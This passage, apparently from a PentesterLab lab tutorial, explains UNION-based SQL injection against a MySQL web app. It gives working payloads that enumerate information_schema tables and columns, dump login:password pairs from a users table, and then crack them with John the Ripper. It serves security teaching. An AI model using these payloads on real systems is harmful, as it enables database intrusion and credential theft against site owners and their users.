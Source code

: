 * the list of all tables: `SELECT table_name FROM information_schema.tables`
* the list of all columns: `SELECT column_name FROM information_schema.columns`

By mixing these queries and the previous URL, you can guess what page to access to retrieve information:

* the list of tables: `1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables`
* the list of columns: `1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns`

The problem, is that these requests provide you a raw list of all tables and columns, but to query the database and retrieve interesting information, you will need to know what column belongs to what table. Hopefully, the table information\_schema.columns stores table names:

```text
SELECT table_name,column_name FROM information_schema.columns
```

To retrieve this information, we can either

* put table_name and column_name in different parts of the injection: `1 UNION SELECT 1, table_name, column_name,4 FROM information_schema.columns`
* concatenate table_name and column_name in the same part of the injection using the keyword CONCAT: `1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`. `':'` is used to be able to easily split the results of the query.

If you want to easily retrieve information from the resulting page using a regular expression \(if you want to write an SQL injection script for example\), you can use a marker in the injection: \`\`1 UNION SELECT 1,concat\('^^^',table\_name,':',column\_name,'^^^'\) FROM information\_schema.columns\`. It then is really easy to match the result in the page.

You have now a list of tables and their columns, the first tables and columns are the default MySQL tables. At the end of the HTML page, we can see a list of tables that are likely to be used by the current application:

![Table name in web page](https://assets.pentesterlab.com/from_sqli_to_shell/tables.png)

Using this information, you can now build a query to retrieve information from this table:

```text
1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;
```

And get the username and password used to access the administration pages:

![Dump of the user&apos;s password](https://assets.pentesterlab.com/from_sqli_to_shell/password.png)

The SQL injection provided the same level of access as the user used by the application to connect to the database \(current\_user\(\)\)... That is why it is always important to provide the lowest privileges possible to this user when you deploy a web application.

## Access to the administration pages and code execution

### Cracking the password

The password can be easily cracked using 2 different methods:

* A search engine
* John-The-Ripper [http://www.openwall.com/john/](http://www.openwall.com/john/)
